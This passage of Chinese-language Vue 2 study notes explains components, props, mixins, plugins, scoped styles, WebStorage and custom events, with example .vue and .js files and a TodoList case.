    <h2>学校地址：{{ address }}</h2>
    <button @click="showName">点我提示学校名称</button>
  </div>
</template>
<script>
// 组件交互相关的代码(数据、方法等等)
export default {
  name: "School",
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  methods: {
    showName: function () {
      alert(this.name);
    },
  },
};
// export {school}
// export default school
</script>
<style>
/* 组件的样式 */
.demo {
  background-color: orange;
}
</style>
```

#### Student.vue 文件：

```vue
<template>
  <div>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
    <button @click="showName">点我提示姓名</button>
  </div>
</template>
<script>
export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      age: 20,
    };
  },
  methods: {
    showName: function () {
      alert(this.name);
    },
  },
};
</script>
<style></style>
```

## 脚手架文件结构：

---

    |—— node_modules：依赖包
    |—— public
    |   |—— favicon.ico：页签图标
    |   |__ index.html：主页面
    |
    |—— src
    |   |—— assets：存放静态资源
    |   |       |—— logo.png
    |   |
    |   |—— component：存放组件
    |   |        |—— HelloWorld.vue
    |   |
    |   |—— App.vue：汇总所有组件
    |   |
    |   |—— main.js：入口文件
    |
    |—— .gitignore：git版本管制忽略的配置
    |—— babel.config.js：babel的配置文件
    |—— package.json：应用包配置文件
    |—— README.md：应用描述文件
    |—— package-lock.json：包版本控制文件

## 关于不同版本的 Vue:

---

- `vue.js` 与 `vue.runtime.xxx.js` 的区别
  (1).`vue.js` 是完整版的 vue，包含：核心功能+模板解析析器
  (2).`vue.runtime.xxx.js` 是运行版的 vue，只包含：核心功能；没有模板解析器
- 因为 `vue.runtime.xxx.js` 没有模板解析器，所以不能使用 template 配置项，需要用 render 函数接收到的 createElement 函数去指定具体内容

## vue.config.js 配置文件:

---

> 使用 vue inspect > output.js 可以查看到 Vue 脚手架的默认配置(修改是不奏效的)
> 使用 vue.config.js 可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh

## ref 属性:

---

1.被用来给元素或子组件注册引用信息（id 替代者）

2.应用在 html 标签上获取的是真实 DOM 元素，应用在组件标签上是组件实例对象（vc）

3.使用方式：
打标识：

```html
<h1 ref="xxx">......</h1>
或 <School ref="xxx"></School>
```

获取：

```
this.$refs.xxx
```

```vue
//School.vue文件：
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
  </div>
</template>
<script>
export default {
  name: "School",
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
};
</script>
<style>
.school {
  background-color: gray;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <h1 v-text="msg" ref="title"></h1>
    <button ref="btn" @click="showDOM">点我输出上方的DOM元素</button>
    <School ref="sch" />
  </div>
</template>
<script>
// 引入school组件
import School from "./components/School";
export default {
  name: "App",
  components: { School },
  data: function () {
    return {
      msg: "欢迎学习Vue！",
    };
  },
  methods: {
    showDOM: function () {
      console.log(this.$refs.title); //真实DOM元素
      console.log(this.$refs.btn); //真实DOM元素
      console.log(this.$refs.sch); //School组件的实例对象（vc）
    },
  },
};
</script>
<style></style>
```

```js
//manin.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

## 配置项 props:

---

功能：让组件接收外部传过来的数据

```
(1).传递数据：
<Demo name="xxx" />
(2).接收数据：
第一种方式(只接受)：
props:['name']

第二种方式(限制类型)：
props:{
name:String
}

 第三种方式(限制类型、限制必要性、指定默认值)：
props:{
name:{
       type:String,  //类型
       required:true //必要性
       default:'老王'  //默认值
  }
}
```

备注：props 是只读的，Vue 底层会监测你对 props 的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制 props 的内容到 data 中一份，然后去修改 data 中的数据。

```vue
//Student.vue文件：
<template>
  <div>
    <h1>{{ msg }}</h1>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>学生年龄：{{ myAge + 1 }}</h2>
    <button @click="updateAge">尝试修改收到的年龄</button>
  </div>
</template>
<script>
export default {
  name: "Student",
  data: function () {
    return {
      msg: "我是一个哔哩哔哩里的一位用户",
      myAge: this.age,
    };
  },
  methods: {
    updateAge: function () {
      this.myAge++;
    },
  },

  //简单声明接收
  props: ["name", "sex", "age"],

  // 接收的同时对数据进行类型限制
  // props: {
  //   name: String,
  //   sex: String,
  //   age: Number,
  // },

  //接收的同时对数据：进行类型限制+默认值的指定+必要性的限制
  // props: {
  //   name: {
  //     type: String, //name的类型是字符串
  //     required: true, //name是必要的
  //   },
  //   sex: {
  //     type: String,
  //     required: true,
  //   },
  //   age: {
  //     type: Number,
  //     default: 99, //默认值
  //   },
  // },
};
</script>
<style></style>
```

```vue
//App.vue文件：
<template>
  <div>
    <Student name="李四" sex="女" :age="18" />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
export default {
  name: "App",
  components: { Student },
};
</script>
<style></style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

## mixin(混入):

---

    1.功能：可以把多个组件共用的配置提取成一个混入对象
    2.使用方式：
        第一步定义混合，例如：
            {
              data(){....},
              methods:{....}
              ...
            }
        第二步使用混入，例如：
            (1).全局混入：Vue.mixin(xxx)
            (2).局部混入：mixins:['xxx']

```vue
//School.vue文件：
<template>
  <div>
    <h2 @click="showName">学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
  </div>
</template>
<script>
// 引用一个混合
import { hunhe, hunhe2 } from "../mixin";
export default {
  name: "School",
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  mixins: [hunhe, hunhe2],
};
</script>
<style></style>
```

```vue
//Student.vue文件：
<template>
  <div>
    <h2 @click="showName">学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
  </div>
</template>
<script>
// import { hunhe, hunhe2 } from "../mixin";

export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      sex: "男",
    };
  },
  // mixins: [hunhe, hunhe2],
};
</script>
<style></style>
```

```vue
//App.vue文件：
<template>
  <div>
    <School />
    <hr />
    <Student />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
import School from "./components/School";
export default {
  name: "App",
  components: { Student, School },
};
</script>
<style></style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 引入全局混合
import { hunhe, hunhe2 } from "./mixin";
// 关闭vue的生产提示
Vue.config.productionTip = false;
Vue.mixin(hunhe), Vue.mixin(hunhe2);
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

```js
//mixin.js文件：
export const hunhe = {
  methods: {
    showName: function () {
      alert(this.name);
    },
  },
};
export const hunhe2 = {
  data() {
    return {
      x: 100,
      y: 200,
    };
  },
};
```

## plugin 插件:

---

    1.功能：用于增强Vue
    2.本质：包含install方法的一个对象，install的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据
    3.定义插件：
      对象.install = function(Vue，options){
         <!-- 1.添加全局过滤器 -->
         Vue.filter(...)
    
         <!-- 2.添加全局指令 -->
          Vue.directive(...)
    
          <!-- 3.配置全局混入（合） -->
          Vue.mixin(...)
    
          <!-- 4.添加实例方法 -->
          Vue.prototype.$myMethod = function(){...}
          Vue.prototype.$myprototype = xxx
      }
    4.使用插件：Vue.use()

```vue
//School.vue文件：
<template>
  <div>
    <h2>学校名称：{{ name | mySlice }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <button @click="test">点我测试一下hello方法</button>
  </div>
</template>
<script>
export default {
  name: "School",
  data: function () {
    return {
      name: "哔哩哔哩bilibili",
      address: "上海",
    };
  },
  methods: {
    test: function () {
      this.hello();
    },
  },
};
</script>
<style></style>
```

```vue
//Student.vue文件：
<template>
  <div>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <input type="text" v-fbind:vlaue="name" />
  </div>
</template>
<script>
export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      sex: "男",
    };
  },
};
</script>
<style></style>
```

```vue
//App.vue文件：
<template>
  <div>
    <School />
    <hr />
    <Student />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
import School from "./components/School";
export default {
  name: "App",
  components: { Student, School },
};
</script>
<style></style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 引入插件
import plugins from "./plugins";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 应用（插件）插件
Vue.use(plugins, 1, 2, 3);
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

```js
//plugins.js文件：
const obj = {
  install(Vue, x, y, z) {
    console.log(x, y, z);
    // 全局的过滤器
    Vue.filter("mySlice", function (value) {
      return value.slice(0, 4);
    });
    // 定义全局指令
    Vue.directive("fbind", {
      // 指令与元素成功绑定时（一上来）
      bind(element, binding) {
        element.value = binding.value;
      },
      // 指令所在元素被插入页面时
      inserted(element, binding) {
        element.focus();
      },
      // 指令所在的模板被重新解析时
      update(element, binding) {
        element.value = binding.value;
      },
    });
    // 定义混入
    Vue.mixin({
      data: function () {
        return {
          x: 100,
          y: 200,
        };
      },
    });
    // 给Vue原型上添加一个方法（vm和vc就都能用了）
    Vue.prototype.hello = () => {
      alert("你好啊！！！");
    };
  },
};
export default obj;
```

## scoped 样式:

---

    1.作用：让样式在局部生效，防止冲突
    2.写法：<style scoped>
            ...
          </style>

```vue
//School.vue文件：
template>
  <div class="demo">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
  </div>
</template>
<script>
export default {
  name: "School",
  data: function () {
    return {
      name: "哔哩哔哩bilibili",
      address: "上海",
    };
  },
};
</script>
<style scoped>
.demo {
  background-color: skyblue;
}
</style>
```

```vue
//Student.vue文件：
<template>
  <div class="demo">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
  </div>
</template>
<script>
export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      sex: "男",
    };
  },
};
</script>
<style scoped>
.demo {
  background-color: orange;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <h1 class="title">你好啊！！！</h1>
    <School />
    <hr />
    <Student />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
import School from "./components/School";
export default {
  name: "App",
  components: { Student, School },
};
</script>
<style scoped>
.title {
  color: red;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

## 总结 TodoList 案例:

---

1.组件化编码流程
(1).拆分静态组件：组件要按照功能点拆分，组件命名不要与 html 元素冲突
(2).实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件再用：
1).一个组件在用：放在组件自身即可。
2).一些组件在用：放在他们共同的父组件上（**状态提升**）
(3).实现交互：从绑定事件开始
2.props 适用于：

(1).父组件 ==> 子组件 通信

(2).子组件 ==> 父组件 通信 (要求父先给子一个函数)

3.使用 v-model 时要切记：v-model 绑定的值不能是 props 传过来的值，因为 props 是不可以修改的！

4.props 传过来的若是对象类型的值，修改对象中的属性时 Vue 不会报错，但不推荐这样做

```vue
//MyFooter.vue文件：
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>
<script>
export default {
  name: "MyFooter",
  props: ["todos", "checkAllTodo", "clearAllTodo"],
  computed: {
    total: function () {
      return this.todos.length;
    },
    // isAll: function () {
    //   return this.doneTotal === this.total && this.total > 0;
    // },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        this.checkAllTodo(value);
      },
    },
    doneTotal: function () {
      // 第一种写法，但不是很完美
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) {
      //     i++;
      //   }
      // });
      // return i;
      // 第二种写法
      /*const x = this.todos.reduce((pre, current) => {
        return pre + (current.done ? 1 : 0);
      }, 0);*/
      // 第二种简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0);
    },
  },
  methods: {
    /*checkAll: function (event) {
      // console.log(event.target.checked);
      this.checkAllTodo(event.target.checked);
    },*/
    clearAll: function () {
      if (confirm("是否确认删除")) {
        this.clearAllTodo();
      }
    },
  },
};
</script>
<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

```vue
//MyHeader.vue文件：
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  data: function () {
    return {
      title: "",
    };
  },
  methods: {
    add: function (event) {
      // 校验数据
      if (!this.title.trim()) {
        return alert("输入不能为空");
      }
      // 将用户的输入包装成应该todo对象
      const todoObj = { id: nanoid(), title: this.title, done: false };
      // 通知App组件去添加一个todo对象
      this.addTodo(todoObj);
      // 清空输入
      this.title = "";
    },
  },
  props: ["addTodo"],
};
</script>
<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}
.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

```vue
//MyItem.vue文件：
<template>
  <li>
    <label>
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违法原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  // 声明接收todo对象
  props: ["todo", "checkTodo", "deleteTodo"],
  methods: {
    // 勾选or取消勾选
    handleCheck: function (id) {
      // 通知App组件将对应的todo对象的done值取反
      this.checkTodo(id);
    },
    // 删除
    handleDelete: function (id) {
      if (confirm("确实删除嘛？")) {
        this.deleteTodo(id);
      }
    },
  },
};
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}
li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover {
  background-color: #ddd;
}
li:hover button {
  display: block;
}
</style>
```

```vue
//MyList.vue文件：
<template>
  <ul class="todo-main">
    <MyItem
      v-for="todoObj in todos"
      ::key="todoObj.id"
      :todo="todoObj"
      :checkTodo="checkTodo"
      :deleteTodo="deleteTodo"
    />
  </ul>
</template>
<script>
import MyItem from "./MyItem";
export default {
  name: "MyList",
  components: { MyItem },
  props: ["todos", "checkTodo", "deleteTodo"],
};
</script>
<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div>
    <div id="root">
      <div class="todo-container">
        <div class="todo-wrap">
          <MyHeader :addTodo="addTodo" />
          <MyList
            :todos="todos"
            :checkTodo="checkTodo"
            :deleteTodo="deleteTodo"
          />
          <MyFooter
            :todos="todos"
            :checkAllTodo="checkAllTodo"
            :clearAllTodo="clearAllTodo"
          />
        </div>
      </div>
    </div>
  </div>
</template>
<script>
// 引入student组件
import MyHeader from "./components/MyHeader";
import MyList from "./components/MyList";
import MyFooter from "./components/MyFooter";
export default {
  name: "App",
  components: { MyHeader, MyList, MyFooter },
  data: function () {
    return {
      todos: [
        { id: "001", title: "抽烟", done: true },
        { id: "002", title: "喝酒", done: false },
        { id: "003", title: "开车", done: true },
      ],
    };
  },
  methods: {
    // 添加一个todo
    addTodo(todoObj) {
      this.todos.unshift(todoObj);
    },
    // 勾选or取消勾选一个todo
    checkTodo(id) {
      this.todos.forEach((todo) => {
        if (todo.id === id) {
          todo.done = !todo.done;
        }
      });
    },
    // 删除一个todo
    deleteTodo: function (id) {
      this.todos = this.todos.filter((todo) => {
        return todo.id !== id;
      });
    },
    // 全选or取消全选
    checkAllTodo: function (done) {
      this.todos.forEach((todo) => {
        todo.done = done;
      });
    },
    // 清除所有已有完成的todo
    clearAllTodo: function () {
      this.todos = this.todos.filter((todo) => {
        return !todo.done;
      });
    },
  },
};
</script>
<style>
/* base */
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
});
```

## WebStorage:

---

1.存储内容大小一般支持 5MB 左右（不同的浏览器可能还不一样）

2.浏览器端通过`Window.sessionStorage`和`Window.localStorage`属性来实现本地存储机制。

3.相关 API：

1. ```
   xxxxxStorage.setItem('key','value');
   ```

   该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。

2. ```
   xxxxxStorage.getItem('person');
   ```

   该方法接受一个键名作为参数，返回键名对应的值。

3. ```
   xxxxxStorage.removeItem('key');
   ```

   该方法接受一个键名作为参数，并把该键名从存储中删除。

4. ```
   xxxxxStorage.clear();
   ```

   该方法会清空存储中的所有数据。

4.备注：

1. SessionStorage 存储的内容会随着浏览器窗口关闭而消失。
2. LocalStorage 存储的内容，需要手动清除才会消失。
3. `xxxxxStorage.getItem(xxx);`如果 `xxx` 对应的 value 获取不到，那么 getItem 的返回值是 null。
4. `JSON.parse(null)`的结果依然是 null。

```html
//localStrorage.html文件：
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>localStorage</title>
  </head>
  <body>
    <h2>localStorage</h2>
    <button onclick="saveData()">点我保存一个数据</button>
    <button onclick="readData()">点我读取一个数据</button>
    <button onclick="deleteData()">点我删除一个数据</button>
    <button onclick="deleteAllData()">点我清空一个数据</button>
    <script>
      function saveData() {
        let person = { name: "张三", age: 18 };
        window.localStorage.setItem("msg", "hello!!!");
        window.localStorage.setItem("msg2", 666);
        window.localStorage.setItem("person", JSON.stringify(person));
      }
      function readData() {
        console.log(window.localStorage.getItem("msg"));
        console.log(window.localStorage.getItem("msg2"));
        const result = window.localStorage.getItem("person");
        console.log(JSON.parse(result));
      }
      function deleteData() {
        window.localStorage.removeItem("msg2");
      }
      function deleteAllData() {
        window.localStorage.clear();
      }
    </script>
  </body>
</html>
```

```html
//sessionStroage.html文件：
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>sessionStorage</title>
  </head>
  <body>
    <h2>sessionStorage</h2>
    <button onclick="saveData()">点我保存一个数据</button>
    <button onclick="readData()">点我读取一个数据</button>
    <button onclick="deleteData()">点我删除一个数据</button>
    <button onclick="deleteAllData()">点我清空一个数据</button>
    <script>
      function saveData() {
        let person = { name: "张三", age: 18 };
        window.sessionStorage.setItem("msg", "hello!!!");
        window.sessionStorage.setItem("msg2", 666);
        window.sessionStorage.setItem("person", JSON.stringify(person));
      }
      function readData() {
        console.log(window.sessionStorage.getItem("msg"));
        console.log(window.sessionStorage.getItem("msg2"));
        const result = window.sessionStorage.getItem("person");
        console.log(JSON.parse(result));
      }
      function deleteData() {
        window.sessionStorage.removeItem("msg2");
      }
      function deleteAllData() {
        window.sessionStorage.clear();
      }
    </script>
  </body>
</html>
```

## 组件的自定义事件:

---

1.一种组件间通信的方式，使用于：**子组件 ==> 父组件**

2.使用场景：A 是父组件，B 是子组件，B 想给 A 传数据，那么就要在 A 中给 B 绑定自定义事件（**事件的回调在 A 中**）。

3.绑定自定义事件：

1. 第一种方式：在父组件中：

   ```
   <Demo @bilibili="test" />
   ```

   或

   ```
   <Demo v-on:bilibili="test" />
   ```

2. 第二种方式，在父组件中：

   ```
   <Demo ref="demo" />
   ......
   mounted( ){
   	this.$refs.xxx.$on('bilibili',this.test)
   }
   ```

3. 若想让自定义事件只能触发一次，可以使用 once 修饰符

   ```
   <Demo @bilibili.once="test" />
   ```

   或$once 方法

   ```
   this.$refs.xxx.$once("bilibili", this.test);
   ```

4.触发自定义事件：

```
this.$emit('bilibili',数据);
```

5.解绑自定义事件(一个)：

```
this.$off('bilibili');
```

6.解绑自定义事件（多个），需要用到数组作为参数，（第一种方法）：

```
this.$off(['bilibili','test']);
```

7.解绑自定义事件（多个）,直接调用，不用参数（第二种方法）：

```
this.$off();
```

8.组件上也可以绑定原生 DOM 事件，需要使用 native 修饰符。

```
<Student ref="Student" @click.native="show" />
```

9.注意：通过绑定自定义事件时，回调**要么配置在 methods 中，要么用箭头函数**，否则 this 指向会出问题！

```
this.$refs.xxx.$on('bilibili',回调);
```

```vue
//School.vue文件：
<template>
  <div class="school">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <button @click="sendSchoolName">把学校名给App</button>
  </div>
</template>
<script>
export default {
  name: "School",
  props: ["getSchoolName"],
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  methods: {
    sendSchoolName: function () {
      this.getSchoolName(this.name);
    },
  },
};
</script>
<style scoped>
.school {
  background-color: skyblue;
  padding: 5px;
}
</style>
```

```vue
//Student.vue文件：
<template>
  <div class="student">
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>当前求和为：{{ number }}</h2>
    <button @click="add">点我number++</button>
    <button @click="sendStudentName">把学生名给App</button>
    <button @click="unbind">解绑bilibili事件</button>
    <button @click="death">销毁当前Student组件的事件(vc)</button>
  </div>
</template>
<script>
export default {
  name: "Student",
  data: function () {
    return {
      name: "张三",
      sex: "男",
      number: 0,
    };
  },
  methods: {
    add: function () {
      console.log("add回调被调用了");
      this.number++;
    },
    sendStudentName: function () {
      // 触发Student组件实例身上的bilibili事件
      this.$emit("bilibili", this.name, 666, 888, 999);
      // this.$emit("demo");
      // this.$emit("click");
    },
    unbind: function () {
      this.$off("bilibili"); //解绑一个自定义事件
      // this.$off(["bilibili", "demo"]); //解绑多个自定义事件
      // this.$off(); //解绑所有的自定义事件
    },
    death: function () {
      this.$destroy(); //销毁了当前Student组件的实例，销毁后所有Student实例的自定义事件全部不奏效了
    },
  },
};
</script>
<style scoped>
.student {
  background-color: pink;
  padding: 5px;
  margin-top: 30px;
}
</style>
```

```vue
//App.vue文件：
<template>
  <div class="app">
    <h1>{{ msg }}，学生姓名是：{{ stundeName }}</h1>

    <!-- 通过父组件给子组件传递函数类型的props实现：子给父传递数据 -->
    <School :getSchoolName="getSchoolName" />

    <!-- 通过父组件给子组件绑定一个自定义事件实现：子给父传递数据(第一种写法：使用@或v-on) -->
    <!-- <Student v-on:bilibili="getStudentName" @demo="m1" /> -->

    <!-- 通过父组件给子组件绑定一个自定义事件实现：子给父传递数据(第二种写法：使用ref) -->
    <Student ref="Student" @click.native="show" />
  </div>
</template>
<script>
// 引入student组件
import Student from "./components/Student";
import School from "./components/School";
export default {
  name: "App",
  components: { Student, School },
  data: function () {
    return {
      msg: "你好呀！",
      stundeName: "",
    };
  },
  methods: {
    getSchoolName(name) {
      console.log("App收到了学校名：", name);
    },
    getStudentName: function (name, ...params) {
      console.log("App收到了学生名：", name, params);
      this.stundeName = name;
    },
    m1: function () {
      console.log("demo事件被触发了!");
    },
    show: function () {
      alert("123");
    },
  },
  mounted() {
    this.$refs.Student.$on("bilibili", this.getStudentName); //绑定自定义事件
    /*this.$refs.Student.$on("bilibili", (name, ...params) => {
      console.log("App收到了学生名：", name, params);
      this.stundeName = name;
    });*/
    // this.$refs.Student.$once("bilibili", this.getStudentName); //绑定自定义事件（一次性）
  },
};
</script>
<style scoped>
.app {
  background-color: gray;
  padding: 5px;
}
</style>
```

```js
//main.js文件：
// 引入vue
import Vue from "vue";
// 引入app
import App from "./App.vue";
// 关闭vue的生产提示
Vue.config.productionTip = false;
// 创建vm
new Vue({
  el: "#app",
  render: (h) => h(App),
  // mounted(){
  //     setTimeout(() => {
  //         this.$destroy()
  //     }, 3000);
  // }
});
```

### TodoList\_自定义事件：

```vue
//MyFooter.vue文件：
<template>
  <div class="todo-footer" v-show="total">
    <label>
      <!-- <input type="checkbox" :checked="isAll" @change="checkAll" /> -->
      <input type="checkbox" v-model="isAll" />
    </label>
    <span>
      <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>
<script>
export default {
  name: "MyFooter",
  props: ["todos"],
  computed: {
    total: function () {
      return this.todos.length;
    },
    // isAll: function () {
    //   return this.doneTotal === this.total && this.total > 0;
    // },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0;
      },
      set(value) {
        // this.checkAllTodo(value);
        this.$emit("checkAllTodo", value);
      },
    },
    doneTotal: function () {
      // 第一种写法，但不是很完美
      // let i = 0;
      // this.todos.forEach((todo) => {
      //   if (todo.done) {
      //     i++;
      //   }
      // });
      // return i;
      // 第二种写法
      /*const x = this.todos.reduce((pre, current) => {
        return pre + (current.done ? 1 : 0);
      }, 0);*/
      // 第二种简写
      return this.todos.reduce((pre, todo) => pre + (todo.done ? 1 : 0), 0);
    },
  },
  methods: {
    /*checkAll: function (event) {
      // console.log(event.target.checked);
      this.checkAllTodo(event.target.checked);
    },*/
    clearAll: function () {
      if (confirm("是否确认删除")) {
        this.$emit("clearAllTodo");
      }
    },
  },
};
</script>
<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```

```vue
//MyHeader.vue文件：
<template>
  <div class="todo-header">
    <input
      type="text"
      placeholder="请输入你的任务名称，按回车键确认"
      v-model="title"
      @keyup.enter="add"
    />
  </div>
</template>
<script>
import { nanoid } from "nanoid";
export default {
  name: "MyHeader",
  data: function () {
    return {
      title: "",
    };
  },
  methods: {
    add: function (event) {
      // 校验数据
      if (!this.title.trim()) {
        return alert("输入不能为空");
      }
      // 将用户的输入包装成应该todo对象
      const todoObj = { id: nanoid(), title: this.title, done: false };
      // 通知App组件去添加一个todo对象
      this.$emit("addTodo", todoObj);
      // 清空输入
      this.title = "";
    },
  },
};
</script>
<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}
.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

```vue
//MyItem.vue文件：
<template>
  <li>
    <label>
      <input
        type="checkbox"
        :checked="todo.done"
        @change="handleCheck(todo.id)"
      />
      <!-- 如下代码也能实现功能，但是不太推荐，因为有点违法原则，因为修改了props -->
      <!-- <input type="checkbox" v-model="todo.done" /> -->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  // 声明接收todo对象
  props: ["todo", "checkTodo", "deleteTodo"],
  methods: {
    // 勾选or取消勾选
    handleCheck: function (id) {
      // 通知App组件将对应的todo对象的done值取反
      this.checkTodo(id);
    },
    // 删除
    handleDelete: function (id) {
      if (confirm("确实删除嘛？")) {
        this.deleteTodo(id);
      }
    },
  },
};
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}
li button {
  float: right;
